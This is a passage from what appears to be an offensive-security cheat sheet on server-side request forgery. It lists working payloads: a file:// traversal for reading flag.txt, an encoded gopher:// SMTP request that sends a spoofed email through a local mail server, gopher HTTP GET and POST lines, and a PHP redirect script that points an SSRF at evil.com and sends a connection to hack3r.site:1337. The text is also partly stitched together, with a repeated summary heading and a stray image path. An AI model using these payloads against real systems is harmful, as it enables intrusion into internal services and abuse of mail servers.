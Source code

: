 ```
file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}
```

* **Gopher://**
  * The Gopher protocol's capability to specify IP, port, and bytes for server communication is discussed, alongside tools like Gopherus and remote-method-guesser for crafting payloads. Two distinct uses are illustrated:

### Gopher://

Using this protocol you can specify the **IP, port and bytes** you want the server to **send**. Then, you can basically exploit a SSRF to **communicate with any TCP server** (but you need to know how to talk to the service first).\
Fortunately, you can use [Gopherus](https://github.com/tarunkant/Gopherus) to create payloads for several services. Additionally, [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser) can be used to create _gopher_ payloads for _Java RMI_ services.

**Gopher smtp**

```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AHYou didn't say the magic word !
.
QUIT
```

**Gopher HTTP**

```bash
#For new lines you can use %0A, %0D%0A
gopher://<server>:8080/_GET / HTTP/1.0%0A%0A
gopher://<server>:8080/_POST%20/x%20HTTP/1.0%0ACookie: eatme%0A%0AI+am+a+post+body
```

**Gopher SMTP — Back connect to 1337**

{% code title="redirect.php" %}
```php
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```
{% endcode %}
